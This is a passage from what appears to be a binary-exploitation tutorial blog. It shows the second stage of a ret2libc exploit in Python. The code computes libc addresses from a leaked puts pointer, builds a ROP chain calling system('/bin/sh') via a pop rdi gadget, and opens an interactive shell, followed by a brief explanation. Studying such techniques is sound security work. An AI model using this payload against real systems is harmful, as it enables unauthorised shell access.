 # Calculate real addresses
libc_base_addr = leaked_puts - puts_offset
libc_system = libc_base_addr + system_offset
libc_sh = libc_base_addr + sh_offset

log.info("Base address of libc: " + str(hex(libc_base_addr)))
log.info("Real address of system in libc: " + str(hex(libc_system)))
log.info("Real address of sh in libc: " + str(hex(libc_sh)))

# Stage-2 Payload
buf = ""
buf += "A" * 40
buf += struct.pack("<Q", pop_rdi_ret)
buf += struct.pack("<Q", libc_sh)
buf += struct.pack("<Q", libc_system)

# Send Stage-2
#p.recvuntil("Enter your name:")
p.sendline(buf)
p.recv()

p.interactive()
{% endhighlight %}
<br>
So, when we execute the exploit, it first leaks the real address of puts from the GOT in stage 1 and then calculate the real address of system and "/bin/sh". Finally it calls the system function with "/bin/sh" as the argument to it using the same " pop rdi; ret" gadget.
<br>
<p align="center">
  	<img width="590" height="340" src="https://fir3wa1-k3r.github.io/imgs/pwn_22.png">
</p>
<br>
